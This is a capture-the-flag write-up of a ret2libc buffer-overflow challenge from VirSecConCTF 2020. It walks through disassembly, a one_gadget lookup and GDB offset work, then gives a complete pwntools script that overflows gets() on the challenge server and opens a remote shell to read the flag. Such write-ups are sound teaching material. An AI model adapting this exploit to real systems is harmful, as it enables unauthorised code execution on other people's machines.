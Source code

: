 ```yaml
---
layout: post
title: VirSecConCTF 2020 - Return Label
excerpt: "Writeup for ret2libc buffer overflow challenge from VirSecConCTF 2020"
categories: [pwn]
---
```


Return label was fourth pwn challenge from VirSecCon2020. The challenge provided a binary and a challenge server. Running the binary gives us the address for printf in libc and asks where we should send a package (seen below).

```
michael@computer:~/Documents/CTF/virseccon/retlab$ ./challenge 
Where should we send your package (printf is at 00007f580de11e80)? 
```


Running [radare2](https://www.radare.org/r/index.html) on the binary we can list out the functions (seen below).

```
[0x000006c0]> afl
0x00000000    2 25           sym.imp.__libc_start_main
0x00000638    3 23           sym._init
0x00000660    1 6            sym.imp.puts
0x00000670    1 6            sym.imp.printf
0x00000680    1 6            sym.imp.gets
0x00000690    1 6            sym.imp.fflush
0x000006a0    1 6            sym.imp.dlsym
0x000006b0    1 6            sub.__cxa_finalize_248_6b0
0x000006c0    1 43           entry0
0x000006f0    4 50   -> 40   sym.deregister_tm_clones
0x00000730    4 66   -> 57   sym.register_tm_clones
0x00000780    4 49           sym.__do_global_dtors_aux
0x000007c0    1 10           entry1.init
0x000007ca    1 118          sym.vuln
0x00000840    1 27           sym.main
0x00000860    4 101          sym.__libc_csu_init
0x000008d0    1 2            sym.__libc_csu_fini
0x000008d4    1 9            sym._fini
```

Seeing that there is no "flag" or "secret" functions we can safely assume that we will need to return to somewhere useful inside of libc. Looking at the code for main, we can see that it simply calls "vuln". 

```
[0x00000840]> pdf
            ;-- main:
/ (fcn) sym.main 27
|   sym.main ();
|           ; var int local_10h @ rbp-0x10
|           ; var int local_4h @ rbp-0x4
|              ; DATA XREF from 0x000006dd (entry0)
|           0x00000840      55             push rbp
|           0x00000841      4889e5         mov rbp, rsp
|           0x00000844      4883ec10       sub rsp, 0x10
|           0x00000848      897dfc         mov dword [local_4h], edi
|           0x0000084b      488975f0       mov qword [local_10h], rsi
|           0x0000084f      e876ffffff     call sym.vuln
|           0x00000854      b800000000     mov eax, 0
|           0x00000859      c9             leave
\           0x0000085a      c3             ret
```

Looking at the code for vuln, we can see a call to the dangerous "gets" function which does not check buffer size before writing (leading to a buffer overflow). Now that we have an idea of what we need to do we can use the [one_gadget](https://github.com/david942j/one_gadget) tool to find an offset that will give us RCE (seen below). Since the challenge did not provide a libc, I just used the libc included in my Ubuntu distribution, and it worked!

```
michael@computer:~/Documents/CTF/virseccon/retlab$ one_gadget /lib/x86_64-linux-gnu/libc-2.27.so
0x45216 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

We will keep these in mind. Next I launched GDB to find the offset between libc base and printf. I also calculated the amount of characters we need to write before reaching the return pointer.

```
(gdb) x printf
0x7ffff7835800 <__printf>:	0xd8ec8148
(gdb) i proc mapping
process 9919
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555555000     0x1000        0x0 /home/michael/Documents/CTF/virseccon/retlab/challenge
      0x555555754000     0x555555755000     0x1000        0x0 /home/michael/Documents/CTF/virseccon/retlab/challenge
      0x555555755000     0x555555756000     0x1000     0x1000 /home/michael/Documents/CTF/virseccon/retlab/challenge
      0x7ffff77e0000     0x7ffff79c7000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff79c7000     0x7ffff7bc7000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
(gdb) c
Continuing.
Where should we send your package (printf is at 00007ffff7844e80)? 

AAAA

Breakpoint 2, 0x000055555555481f in vuln ()
(gdb) x/xg $rsp
0x7fffffffde10:	0x0000000041414141
(gdb) c
Continuing.

Breakpoint 3, 0x000055555555483f in vuln ()
(gdb) x/xg $rsp
0x7fffffffdea8:	0x0000555555554854
(gdb) q
michael@computer:~/Documents/CTF/virseccon/retlab$ python
Python 2.7.17 (default, Nov  7 2019, 10:07:09) 
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7ffff7835800 - 0x7ffff77e0000
350208
>>>  0x7fffffffdea8 - 0x7fffffffde10
152 
```

Okay, looks like we need to write 152 characters before the gadget address. We are finally ready to string everything together (as seen in the script below).

{% highlight python %}
from pwn import *

r = remote('jh2i.com', 50005)

printf = int(r.recvuntil('?').split(' ')[9][:-2], 16)

libc_base = printf - 350208

gadget = libc_base + 0x45216

payload = 'A' * 152 + p64(gadget)

r.sendline(payload)

r.interactive()
{% endhighlight %}

Running this gives us a prompt, which is a remote shell on the server!

```
michael@computer:~/Documents/CTF/virseccon/retlab$ python retlab.py 
[+] Opening connection to jh2i.com on port 50005: Done
[*] Switching to interactive mode
 
$ id
uid=8888(pwn) gid=8888(pwn) groups=8888(pwn)
$ cat flag.txt
LLS{r0p_1s_fun}
```

We can use the shell to obtain the flag `LLS{r0p_1s_fun}`. I hope this was helpful!